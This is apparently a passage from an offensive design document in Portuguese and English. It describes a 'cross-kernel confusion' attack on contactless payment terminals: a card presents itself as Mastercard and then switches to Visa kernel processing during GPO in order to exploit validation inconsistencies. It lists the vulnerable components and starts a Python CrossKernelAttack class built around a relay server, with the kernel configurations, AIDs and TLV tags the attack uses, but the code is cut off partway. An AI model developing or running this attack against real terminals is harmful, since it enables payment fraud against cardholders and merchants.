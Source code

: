 # Attack Vector 3: Cross-Kernel Confusion Attack

## Concept
**Nome:** "Confusão Inter-Esquemas de Pagamento"  
**Alvo:** Terminais que processam múltiplos esquemas de cartão (Mastercard/Visa)
**Objetivo:** Alternar entre diferentes kernels de processamento durante a transação para explorar diferenças de implementação e criar inconsistências de validação.

## Technical Description

### Attack Flow
1. **Initial Selection**: Card se identifica como um esquema (ex: Mastercard)
2. **Kernel Switch**: Durante GPO, muda para protocolo de outro esquema (ex: Visa)
3. **Mixed Processing**: Terminal processa com lógica híbrida/inconsistente
4. **Exploitation**: Aproveita diferenças de validação entre kernels

### Vulnerable Components
- **AID Selection Logic**: Seleção de Application Identifier
- **Kernel Processing**: Diferenças entre Mastercard Kernel 2 vs Visa Kernel 3
- **Data Element Validation**: Validação inconsistente de campos TLV
- **Transaction Flow**: Diferentes fluxos de autorização entre esquemas

### Implementation Details

#### Core Cross-Kernel Logic (Python)
```python
class CrossKernelAttack:
    def __init__(self, relay_server):
        self.relay_server = relay_server
        self.kernel_configs = self.load_kernel_configurations()
        self.current_kernel = None
        self.target_kernel = None
        
    def load_kernel_configurations(self):
        """
        Carrega configurações específicas de cada kernel
        """
        return {
            'mastercard_k2': {
                'aid': 'A0000000041010',  # Mastercard Credit
                'processing_options': {
                    'pdol_format': 'TTQ_AMOUNT_COUNTRY_CURRENCY_DATE_TYPE_UN',
                    'gpo_response_format': 'AIP_AFL_TRACK2_IAD_AC_CID_ATC_CTQ',
                    'auth_methods': ['SDA', 'DDA', 'CDA'],
                    'cvm_methods': ['NoPIN', 'OnlinePIN', 'CDCVM']
                },
                'data_elements': {
                    '9F02': 'Amount',
                    '9F03': 'Amount Other', 
                    '9F1A': 'Terminal Country Code',
                    '95': 'TVR',
                    '9A': 'Transaction Date',
                    '9C': 'Transaction Type',
                    '9F37': 'Unpredictable Number'
                }
            },
            'visa_k3': {
                'aid': 'A0000000031010',  # Visa Credit
                'processing_options': {
                    'pdol_format': 'TTQ_AMOUNT_COUNTRY_CURRENCY_DATE_TYPE_UN',
```